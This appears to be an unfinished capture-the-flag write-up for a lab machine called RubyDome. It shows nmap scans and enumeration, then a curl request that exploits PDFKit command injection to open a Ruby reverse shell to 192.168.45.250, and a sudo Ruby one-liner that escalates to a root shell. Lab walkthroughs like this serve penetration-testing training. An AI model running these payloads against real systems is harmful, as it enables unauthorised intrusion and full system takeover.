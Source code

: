 #InProgress 

## Nmap
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
3000/tcp open  http    syn-ack ttl 61 WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Nmap UDP


# Enumeration

## HTTP

### Directories
/pdf
/__sinatra__

### Exploits
```
searchsploit -m multiple/remote/33489.txt
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927094233.png?raw=true)

error:
```
get &#x27;&#x2F;%1b%5d%32%3b%6f%77%6e%65%64%07%0a&#x27; do
  &quot;Hello World&quot;
end
```

search for pdfkit vulnerabilities
https://github.com/shamo0/PDFkit-CMD-Injection
```
curl 'http://rubydome.pg:3000/pdf' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: rubydome.pg' -H 'Connection: keep-alive' -H 'Referer: rubydome.pg' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F192.168.45.250%3A3000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22192.168.45.250%22%2C80%29%29%27%60'
```

# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927102823.png?raw=true)
sudo -l
```
/usr/bin/ruby -e 'exec "sudo /bin/sh"'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927104659.png?raw=true)


## Automated

### Peass
### Mimikatz

